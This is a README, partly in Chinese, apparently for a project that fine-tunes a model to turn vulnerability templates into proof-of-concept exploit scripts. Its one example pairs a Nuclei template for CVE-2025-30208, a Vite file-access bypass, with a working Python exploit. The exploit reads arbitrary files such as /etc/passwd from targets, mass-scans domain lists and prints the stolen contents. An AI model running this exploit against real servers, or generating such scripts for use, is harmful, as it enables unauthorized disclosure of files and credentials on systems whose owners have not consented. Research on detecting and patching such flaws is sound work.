

# 251017 README



遇到的问题：微调样本少，目前现成的、成对的、高质量的poc-script对只有204条

怎么寻找未知样本的注入点还是问题

## Fine-Tuning

- Input

  ```yaml
  id: CVE-2025-30208
  info:
    name: Vite bypasses server.fs.deny when using `?raw??`
    description: Vite, a provider of frontend development tooling, has a vulnerability
      in versions prior to 6.2.3, 6.1.2, 6.0.12, 5.4.15, and 4.5.10. `@fs` denies access
      to files outside of Vite serving allow list. Adding `?raw??` or `?import&raw??`
      to the URL bypasses this limitation and returns the file content if it exists.
      This bypass exists because trailing separators such as `?` are removed in several
      places, but are not accounted for in query string regexes. The contents of arbitrary
      files can be returned to the browser. Only apps explicitly exposing the Vite dev
      server to the network (using `--host` or `server.host` config option) are affected.
      Versions 6.2.3, 6.1.2, 6.0.12, 5.4.15, and 4.5.10 fix the issue.
    reference:
    - https://github.com/vitejs/vite/commit/92ca12dc79118bf66f2b32ff81ed09e0d0bd07ca
    - https://github.com/vitejs/vite/commit/80381c38d6f068b12e6e928cd3c616bd1d64803c
    - https://github.com/vitejs/vite/commit/315695e9d97cc6cfa7e6d9e0229fb50cdae3d9f4
    - https://github.com/vitejs/vite/security/advisories/GHSA-x574-m823-4x7w
    - https://github.com/vitejs/vite/commit/807d7f06d33ab49c48a2a3501da3eea1906c0d41
    - https://github.com/vitejs/vite/commit/f234b5744d8b74c95535a7b82cc88ed2144263c1
    classification:
      cwe-id: CWE-284
      category: ''
  flow: http(1) && http(2)
  http:
  - method: GET
    path:
    - '{{BaseURL}}'
    matchers:
    - type: word
      part: body
      words:
      - vite
      internal: true
  - method: GET
    path:
    - '{{BaseURL}}/etc/passwd?raw'
    - '{{BaseURL}}/C:/Windows/System32/drivers/etc/hosts?raw'
    stop-at-first-match: true
    matchers-condition: and
    matchers:
    - type: regex
      regex:
      - 'root:.*:0:0:'
      - Microsoft Corp
      condition: or
    - type: status
      status:
      - 200

  ```
- Output

  ```
  import requests

  import argparse

  import urllib3

  from colorama import Fore, Style


  # Disable SSL warnings

  urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)


  def check_vulnerability(target, file_path, verbose=False, output=None):

      url = f"{target}{file_path}?raw"

      print(f"{Fore.CYAN}[*] Testing: {url}{Style.RESET_ALL}")


      try:

          response = requests.get(url, timeout=5, verify=False)  # Ignore SSL verification

          if response.status_code == 200 and response.text:

              vuln_message = f"{Fore.GREEN}[+] Vulnerable : {url}{Style.RESET_ALL}"

              print(vuln_message)


              if verbose:

                  print(f"\n{Fore.YELLOW}--- File Content Start ---{Style.RESET_ALL}")

                  print(response.text[:500])  # Print first 500 characters for safety

                  print(f"{Fore.YELLOW}--- File Content End ---{Style.RESET_ALL}\n")


              if output:

                  with open(output, 'a') as f:

                      f.write(f"{url}\n")

          else:

              print(f"{Fore.RED}[-] Not vulnerable or file does not exist: {url}{Style.RESET_ALL}")

      except requests.exceptions.RequestException as e:

          print(f"{Fore.YELLOW}[!] Error testing {url}: {e}{Style.RESET_ALL}")


  def check_multiple_domains(file_path, file_to_read, verbose, output):

      try:

          with open(file_to_read, 'r') as file:

              domains = file.readlines()

              for domain in domains:

                  domain = domain.strip()

                  if domain:

                      check_vulnerability(domain, file_path, verbose, output)

      except FileNotFoundError:

          print(f"{Fore.RED}[!] Error: The file '{file_to_read}' does not exist.{Style.RESET_ALL}")


  if __name__ == "__main__":

      parser = argparse.ArgumentParser(description="PoC for CVE-2025-30208 - Vite Arbitrary File Read")

      parser.add_argument("target", nargs="?", help="Target URL (e.g., http://localhost:5173)")

      parser.add_argument("-l", "--list", help="File containing list of domains")

      parser.add_argument("-f", "--file", default="/etc/passwd", help="File path to read (default: /etc/passwd)")

      parser.add_argument("-v", "--verbose", action="store_true", help="Show file content if vulnerable")

      parser.add_argument("-o", "--output", help="Output file to save vulnerable URLs")


      args = parser.parse_args()


      if args.list:

          check_multiple_domains(args.file, args.list, args.verbose, args.output)

      elif args.target:

          check_vulnerability(args.target, args.file, verbose=args.verbose, output=args.output)

      else:

          print(f"{Fore.RED}Please provide a target URL or a domain list file.{Style.RESET_ALL}")

  ```
